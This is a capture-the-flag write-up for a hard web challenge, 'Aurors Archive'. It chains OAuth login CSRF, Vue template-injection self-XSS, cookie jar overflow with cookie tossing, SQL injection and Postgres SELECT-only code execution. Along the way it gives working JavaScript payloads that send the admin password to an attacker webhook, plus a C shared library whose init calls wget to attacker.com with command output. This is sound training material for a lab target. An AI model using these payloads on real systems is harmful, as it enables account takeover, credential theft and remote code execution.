


        <font size="10">Aurors Archive</font>

09<sup>th</sup> March 2025

​Prepared By: Xclow3n

​Challenge Author(s): Xclow3n

​Difficulty: <font color=red>Hard</font>

​Classification: Official

# [Synopsis](#synopsis)

- This challenge involves Oauth CSRF then exploiting self XSS via CSTI in vueJS and Cookie Jar overflow and cookie tossing -> Postgres RCE with only SELECT query


# Solution

# Application Overview

Visiting the main page gives us a login page and no register but we can use the OAuth to login:



We can register using the oauth  and login


After login we see the following dashboard


We can make bids on any auction item


We can see our bids


And submit a resource


Thats pretty much the whole funcitionality of this app.

# Oauth CSRF & Self XSS

Looking at the Oauth flow of this application 


we spot that its not using a state parameter which means its possible perform login CSRF and we can make anyone login into our account.

Moving forward to chain it with something.

The app is rendering the my bids using nunjucks like here

```HTML



<div class="rpg-panel" id="my_bids">
  <div class="panel-header">
    <i class="fa-solid fa-money-check-alt"></i>
    <h2 class="panel-title">My Bids</h2>
  </div>
  
    <table class="auction-table">
      <thead>
        <tr>
          <th>Resource Name</th>
          <th>Bidder</th>
          <th>Bid Amount</th>
          <th>Placed On</th>
        </tr>
      </thead>
      <tbody>

        
        <tr>
          <td>{{ bid.resourcename }}</td>
          <td>{{ bid.bidder }}</td>
          <td>{{ bid.amount }}</td>
          <td>{{ bid.createdat }}</td>
        </tr>
        
      </tbody>
    </table>
  
    <p>You have not placed any bids yet.</p>
  
</div>

```

but in `js/main.js` it has the following piece of code
```javascript
function initMyBidsVue() {
  new Vue({
    el: "#my_bids",
    delimiters: ['${', '}'],
    data: {
    },
    computed: {
    },
    methods: {
    }
  });
}
```

We only control the bid input here, if we make the following bid `${7*7}`, it should show us 49 in bid amount


and looking at my bids we see the value 49


We have CSTI in vue js, but checking the bids route

```javascript
router.post('/auctions/:id/bids', isAuthenticated, async (req, res) => {
  try {
    const auctionId = req.params.id;
    const userId = req.session.userId;
    const { bid } = req.body;

    if (bid.length > 10) {
      return res.status(400).json({ success: false, message: 'Too long' });
    }
    await placeBid(auctionId, userId, bid);
    return res.json({ success: true });
  } catch (err) {
    console.error('Error placing bid:', err);
    const status = err.message.includes('Invalid') ? 400
                  : (err.message.includes('not found') || err.message.includes('closed')) ? 404
                  : 500;
    return res.status(status).json({ success: false, message: err.message || 'Internal server error.' });
  }
});
```

It clearly checks if the length of `bid` is bigger than 10 characters.

It is still possible to get [self xss using this research](https://matanber.com/blog/4-char-csti).

We can create the following payload

```
...SNIP...
${`[z]}
${a+=`}
${ohhh}
${`[z]}
${a+=`}
${nhhh}
${`[z]}
${a+=`}
${shhh}
${`[z]}
${a+=`}
...SNIP...
```

And we can make a quick script which will make bids for our account using the payload

```python
import requests

url = "http://94.237.62.255:32025/api/auctions/1/bids"
headers = {
    "Content-Type": "application/json",
    "Accept": "application/json, text/plain, */*",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36",
    "Cookie": "connect.sid=[SESSION COOKIE]"
}

with open("words.txt") as f:
    for line in f:
        bid_value = line.strip()
        if not bid_value:
            continue
        data = {"bid": bid_value}
        r = requests.post(url, json=data, headers=headers)
        print(f"Sent bid '{bid_value}' -> Status: {r.status_code}")
```

Running the script and then visiting `My Bids`, gives us a alert box



# Cookie Jar Overflow + Cookie Tossing

We have Oauth Login CSRF and self xss, but whats the impact here? We can only make someone login into our account and execute js

Since the session cookie is set HTTPOnly we cannot overwrite it using Javascript.

But we can use a script like this

```javascript
for (let i = 0; i < 300;i++){
    document.cookie = "cookie"+i+"=a; Secure"
}

for (let i = 0; i < 300;i++){
    document.cookie = "cookie" + i + "=a; expires=Thu, 01 Jan 1970 00:00:01 GMT";
}
```

There is a limit on how many cookies can exist for a specific domain, with this we can also remove HTTPOnly cookies

What now? we have removed all cookies

Since our xss is on page `/my-bids`, We can after clearing all cookies set cookie to `/my-bids` path. You can learn more about cookie tossing on [synk blog](https://snyk.io/articles/hijacking-oauth-flows-via-cookie-tossing/).


After performing this we can directly read admin password using this admin endpoint 

```javascript
router.post("/table", isAdmin, async (req, res) => {
  const { tableName } = req.body;
  try {
    const query = `SELECT * FROM "${tableName}"`;

    if (query.includes(';')) {
      return res
        .status(400)
        .json({ success: false, message: "Multiple queries not allowed!" });
    }

    const results = await runReadOnlyQuery(query);
    res.json({ success: true, results });
  } catch (error) {
    console.error("Table Query Error:", error);
    res.status(500).json({
      success: false,
      message: "Error fetching table data.",
    });
  }
});
```

The final script will look like this

```javascript
const cookieJar = 300
cookiez = "connect.sid=[Session COOKIE]"
if (document.cookie == cookiez) {
  fetch('http://[attacker webhook]?begin=true')

  sendQuery();
  fetch('http://[attacker webhook]?begin=false')

}
else {
  for (let i = 0; i < cookieJar;i++){
    document.cookie = "cookie"+i+"=a; Secure"
  }

  for (let i = 0; i < cookieJar;i++){
    document.cookie = "cookie" + i + "=a; expires=Thu, 01 Jan 1970 00:00:01 GMT";
  }

  document.cookie = cookiez + ";path=/my-bids; expires=" + new Date(Date.now() + 24 * 60 * 60 * 1000).toUTCString();

}


async function sendQuery() {
  try {
    const response = await fetch("/table", {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({ tableName: "users" }),
        });

    const data = await response.json();

    if (data.success) {
      fetch('http://[attacker webhook]?x=' + btoa(data.results[0].password))
      console.log('Query Results:', data.results);
    } else {
      fetch('http://[attacker webhook]?error=' + btoa(data))
      console.error('Query Error:', data.message);
    }
  } catch (error) {
    fetch('http://[attacker webhook]?catch=' + btoa(error))
    console.error('Request Failed:', error);
  }
}
```

It will clear cookies and set the cookie, and if the cookie is already there it will simply fetch user table and send it our webhook.

Combining everything together with our Oauth CSRF and Self xss

1. First we make the admin bot visit our web server with the following index.html
```HTML
<script>
  window.open('http://127.0.0.1:1337/logout');

  // Wait 2 seconds, then redirect the current page
  setTimeout(function() {
    window.open('http://127.0.0.1:1337/callback?code=8ba70f277c42248b526a963c66320ab867dec133');
  }, 1000);

  setTimeout(function() {
    window.open('http://127.0.0.1:1337/my-bids');
  }, 2000);
</script>
```

Then once the cookie overwrite is completed we make the bot visit `http://127.0.0.1:1337/my-bids`

and we get the admin credentials in base64 encoded form


# Postgres select RCE

In admin panel we can browse through all tables


Remembering this route 

```javascript
router.post("/table", isAdmin, async (req, res) => {
  const { tableName } = req.body;
  try {
    const query = `SELECT * FROM "${tableName}"`;

    if (query.includes(';')) {
      return res
        .status(400)
        .json({ success: false, message: "Multiple queries not allowed!" });
    }

    const results = await runReadOnlyQuery(query);
    res.json({ success: true, results });
  } catch (error) {
    console.error("Table Query Error:", error);
    res.status(500).json({
      success: false,
      message: "Error fetching table data.",
    });
  }
});
```

Its vulnerable to sql injection but it do not allow `;` so we cannot use stacked query to get RCE

We can simply follow this [blog and get RCE](https://adeadfed.com/posts/postgresql-select-only-rce/) by overwriting postgres.conf and loading a malicious shared library.

I will be using this code to read the flag

```C
#include <stdlib.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _PG_init(void)
{
    system("wget \"https://attacker.com/?x=$(/readflag)\"");
}
```

Following that blog and uploading this shared library gives us the flag to our webhook


